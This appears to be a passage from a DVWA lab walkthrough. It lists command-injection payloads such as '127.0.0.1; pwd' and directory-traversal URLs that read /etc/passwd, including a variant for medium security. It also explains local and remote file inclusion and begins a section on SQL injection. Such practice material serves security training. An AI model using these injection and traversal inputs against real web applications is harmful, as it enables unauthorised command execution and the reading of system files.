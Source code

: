 **Set security low**<br>
Payload : ```127.0.0.1; pwd``` --> Prints working directory

**Set security low**<br>
Payload : ```192.168.0.1| pwd```

**More payloads**<br>
1.  Example payloads
```
127.0.0.1; pwd
127.0.0.1 || pwd
127.0.0.1 && pwd
127.0.0.1 & pwd
127.0.0.1 | pwd
```
2.  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

### 3. File Inclusion
#### Types of Cross Site Scripting :
**1. Local File Inclusion** <br><br>
LFI vulnerabilities allow an attacker to read (and sometimes execute) files on the victim machine. This can be very dangerous because if the web server is misconfigured and running with high privileges, the attacker may gain access to sensitive information. If the attacker is able to place code on the web server through other means, then they may be able to execute arbitrary commands.<br>

**2. Remote File Inclusion**<br><br>
RFI vulnerabilities are easier to exploit but less common. Instead of accessing a file on the local machine, the attacker is able to execute code hosted on their own machine.

### Local File Inclusion

**Set security low**<br>
In the browser address bar, enter the following:<br><br>
``http://192.168.80.134/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd``<br><br>
The ``‘../’`` characters used in the example above represent a directory traversal. The number of ``‘../’`` sequences depends on the configuration and location of the target web server on the victim machine. Some experimentation may be required.<br>

**Set security medium**<br>
In the browser address bar, enter the following:<br>
``http://10.5.251.4/dvwa/vulnerabilities/fi/?page=files:///../../../../../../../../etc/passwd``<br>

**More payloads**<br>
1. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

### 4. SQL Injection 
#### What is SQL Injection?
SQL Injection (SQLi) is a type of an injection attack that makes it possible to execute malicious SQL statements. These statements control a database server behind a web application. Attackers can use SQL Injection vulnerabilities to bypass application security measures. They can go around authentication and authorization of a web page or web application and retrieve the content of the entire SQL database. They can also use SQL Injection to add, modify, and delete records in the database.
